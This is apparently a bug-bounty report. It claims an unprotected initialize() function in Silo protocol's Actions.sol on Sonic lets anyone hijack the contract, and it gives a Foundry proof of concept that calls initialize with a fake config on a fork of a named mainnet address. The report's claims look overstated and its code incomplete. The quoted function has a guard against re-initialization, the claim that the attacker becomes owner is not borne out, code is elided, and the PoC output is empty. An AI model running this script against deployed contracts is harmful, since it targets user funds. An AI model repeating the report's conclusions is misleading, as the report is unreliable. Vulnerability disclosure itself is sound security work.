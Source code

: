 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

Actions.sol acts as middleware in silo protocol, meaning if a user calls deposit or withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as:

accrueInterest, reentrancy protection, hook receiver, shareToken and asset addresses, interacts with vaults that change the storage.




**Vulnerability Details:**

After deep manual reviews i found out that the  attacker can get access and hijack the Actions.sol via calling initialize with malicious Config, fake hook receiver, shareToken and asset addresses, because the initialize function is unprotected, it lacks onlyOwner or initializer from openzepplin, because of that, anyone can call it and hijack the contract.

Furthermore, the silo's admin forgot to call initialize manually and it was not called in silo.sol constructor.

```solidity
// Actions.sol
@audit-bug-->  function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) { // ⚠️ BUG: Missing onlyOwner/initializer
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```




**Impact Details:**

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.




**Proof of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and asset addresses, finally the attacker became the owner of the Actions.sol contract.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

... existing code ...

contract FakeSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0x90581aFC83520a649376852166B3df92153cEE20),  // You can put any address
            silo: address(0x39AA39c021dfbaE8faC545936693aC917d5E7563)  // put any address
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04; // Actions.sol mainnet address

    FakeSiloConfig fakeConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        fakeConfig = new FakeSiloConfig();
    }

    function test_Initialize() public {
       
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                fakeConfig
            )
        );
        require(success, string(data));
    }
}
```


**PoC Output:**
